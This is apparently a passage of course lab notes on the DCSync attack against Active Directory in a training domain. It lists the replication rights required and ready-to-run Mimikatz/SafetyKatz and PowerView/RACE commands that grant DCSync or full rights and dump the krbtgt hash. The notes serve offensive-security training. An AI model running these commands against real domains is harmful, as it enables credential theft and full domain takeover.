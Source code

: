 > Noisy - detect by MDI because an user other than dc is running dcsync

The permissions the user must have to execute DCSync:
```powershell
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set (in some cases)
```

**DCsync**:
```powershell
C:\AD\Tools\SafetyKatz.exe “lsadump::dcsync /user:dcorp\krbtgt” “exit”
```

**Add FullControl rights**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Using ActiveDirectory Module and RACE**:
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

**Add rights for DCSync**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity
	student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Using ActiveDirectory Module and RACE**:
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

**Execute DCSync**:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
or
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```


Learning Objective 12

- Check if studentx has Replication (DCSync) rights.
- If yes, execute the DCSync attack to pull hashes of the krbtgt user.
- If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.



## ACLs - Security Descriptors
